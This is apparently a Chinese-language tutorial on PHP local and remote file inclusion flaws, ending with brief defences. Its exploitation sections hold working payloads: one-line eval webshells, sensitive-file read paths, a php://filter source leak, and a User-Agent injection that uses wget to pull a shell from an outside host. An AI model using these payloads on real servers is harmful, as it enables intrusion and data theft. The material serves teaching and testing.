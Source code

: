 为了更好地使用代码的重用性，引入了文件包含函数，可以通过文件包含函数将文件包含进来，直接使用包含文件的代码。</br>
几乎所有的脚本语言中都会提供文件包含的功能，但文件包含漏洞在PHP Web Application中居多，在JSP、ASP中十分少甚至没有，问题在于语言设计的弊端。</br>

## 文件包含漏洞原理
在包含文件时候，为了灵活包含文件，将被包含文件设置为变量，通过动态变量来引入需要包含的文件时，用户可以对变量的值可控；</br>
而且没有对包含的文件进行过滤或者严格过滤，直接带入包含函数，攻击者可以利用其加载其他文件，执行非预期的操作，由此造成文件包含漏洞。

## PHP文件包含函数
**include( )**</br>
当使用该函数包含文件时，只有代码执行到 include()函数时才将文件包含</br>
进来，发生错误时之给出一个警告，继续向下执行。</br>
**include_once( )**</br>
功能与 Include()相同，区别在于当重复调用同一文件时，程序只调用一次</br>
**require( )**</br>
require()与 include()的区别在于 require()执行如果发生错误，函数会输出</br>
错误信息，并终止脚本的运行。</br>
**require_once( )**</br>
功能与 require()相同，区别在于当重复调用同一文件时，程序只调用一次。

## 文件包含漏洞分类
PHP中的文件包含分为本地包含和远程包含。</br>
**（一）本地包含 Local File Include (LFI)**</br>
（1）、所包含文件内容符合PHP语法规范：任何扩展名都可以被PHP解析；</br>
（2）、包含非PHP语法规范源文件，会暴露其源代码。</br>
**（二）远程包含 Remote File Include (RFI)**</br>
如果要使用远程包含功能，首先需要确定PHP是否已经开启远程包含功能选项（php默认关闭远程包含功能：allow_url_include=off），开启远程包含功能需要在php.ini配置文件中修改。
远程包含与本地包含没有区别，无论是哪种扩展名，只要遵循PHP语法规范，PHP解析器就会对其解析。

## 文件包含漏洞利用
### （一）读取敏感文件
常见的敏感信息路径：</br>
**Windows系统：**</br>
C:\boot.ini  //查看系统版本</br>
  C:\windows\system32\inetsrv\MetaBase.xml  //IIS配置文件</br>
  C:\windows\repair\sam  //存储Windows系统初次安装的密码</br>
  C:\Program Files\mysql\my.ini  //Mysql配置</br>
  C:\Program Files\mysql\data\mysql\user.MYD  //Mysql root</br>
  C:\windows\php.ini  //php配置信息</br>
  C:\windows\my.ini  //Mysql配置文件</br>
  ......</br>
**Linux系统：**</br>
/etc/passwd </br>
  /usr/local/app/apache2/conf/httpd.conf  //apache2默认配置文件</br>
  /usr/local/app/apache2/conf/extra/httpd-vhosts.conf  //虚拟网站设置</br>
  /usr/local/app/php5/lib/php.ini  //PHP相关设置</br>
  /etc/httpd/conf/httpd.conf  //apache配置文件</br>
  /etc/my.cnf  //Mysql的配置文件</br>
  ......

### （二）远程包含shell
allow_url_fopen选项是激活的，可以尝试远程包含一句话木马。</br>
（1）访问http://20.20.20.20/echo.txt内容为：</br>
<?fputs(open("shell.php","w"),"<?php eval($_POST[1]);?>")?></br>
（2）payload：http://www.aaa.com/index.php?page=http://20.20.20.20/echo.txt

### （三）本地包含配合文件上传
（1）上传一句话图片木马，得知图片路径（/upload/1.jpg)，图片代码为<?fputs(open("shell.php","w"),"<?php eval($_POST[1]);?>")?></br>
（2）payload：http://www.xxx.com/index.php?page=./upload/1.jpg，包含这张图片并在index.php所在目录生成shell.php。

### （四）使用PHP封装协议
PHP带有很多内置URL风格的封装协议，这类协议与fopen()、copy()、file_exists()、file size()等文件系统函数所提供的功能类似。</br>
使用封装协议读取PHP文件：http://192.168.11.55:8080/dvwa/vulnerabilities/fi/?page=php://filter/read=convert.base64-encode/resource=x.php

### （五）包含Apache日志文件
Apache服务器运行后会生成两个日志文件，这两个文件是access.log(访问日志)和error.log(错误日志)，apache的日志文件记录下我们的操作，并且写到访问日志文件access.log之中。</br>
    日志默认路径</br>
    (1) apache+Linux日志默认路径</br>
    /etc/httpd/logs/access_log或者/var/log/httpd/access log</br>
    (2) apache+win2003日志默认路径</br>
    (3) IIS6.0+win2003默认日志文件 C:WINDOWSsystem32Logfiles</br>
    (4) IIS7.0+win2003 默认日志文件 %SystemDrive%inetpublogsLogFiles</br>
    (5) nginx 日志文件在用户安装目录的logs目录下 如安装目录为/usr/local/nginx,则日志目录就是在/usr/local/nginx/logs里 也可通过其配置文件Nginx.conf，获取到日志的存在路径(/opt/nginx/logs/access.log)</br>
    web中间件默认配置</br>
    (1) apache+linux 默认配置文件 /etc/httpd/conf/httpd.conf</br>
    或者index.php?page=/etc/init.d/httpd</br>
    (2) IIS6.0+win2003 配置文件 C:/Windows/system32/inetsrv/metabase.xml</br>
    (3) IIS7.0+WIN 配置文件 C:WindowsSystem32inetsrvconfigapplicationHost.config

### （六）截断包含
只适用于magic_quotes_gpc=off的情况，如果为on，%00（NULL）将会被转义，从而无法正常截断。

### （七）绕过WAF防火墙

### （八）包含session
    利用条件:session文件路径已知，且其中内容部分可控。</br>
    PHP默认生成的Session文件往往存放在/tmp目录下 /tmp/sess_SESSIONID ?file=../../../../../../tmp/sess_tnrdo9ub2tsdurntv0pdir1no7</br>
    (session文件一般在/tmp目录下，格式为sess_[your phpsessid value]，有时候也有可能在/var/lib/php5之类 的，在此之前建议先读取配置文件。在某些特定的情况下如果你能够控制session的值，也许你能够获得一个 shell)

### （九）包含/proc/self/environ文件
**利用条件:**</br>
  （1）php以cgi方式运行，这样environ才会保持UA头。</br>
  （2）environ文件存储位置已知，且environ文件可读。
**姿势:**
    proc/self/environ中会保存user-agent头。如果在user-agent中插入php代码，则php代码会被写入到environ中。 之后再包含它，即可。</br>
    ?file=../../../../../../../proc/self/environ 选择User-Agent</br>
    写代码如下:</br>
   <?system('wget http://www.yourweb.com/oneword.txt -O shell.php');?></br>
然后提交请求。

### （十）包含临时文件

（1）php中上传文件，会创建临时文件。在linux下使用/tmp目录，而在windows下使用c:\winsdows\temp目录。在临 时文件被删除之前，利用竞争即可包含该临时文件。</br>
（2）由于包含需要知道包含的文件名。一种方法是进行暴力猜解，linux下使用的随机函数有缺陷，而window下只有 65535中不同的文件名，所以这个方法是可行的。另一种方法phpinfo来获取临时文件的路径以及名称,然后临时文 件在极短时间被删除的时候,需要竞争时间包含临时文件拿到webshell。

## 文件包含漏洞防御
（1）路径限制</br>
（2）过滤.（点）/（反斜杠）\（反斜杠）</br>
（3）包含文件验证</br>
（4）尽量不要使用动态包含，可以在需要包含的页面固定写好</br>
（5）严格判断包含中的参数是否外部可控</br>
（6）PHP用open_basedir配置限制访问</br>
（7）禁止服务器远程文件包含
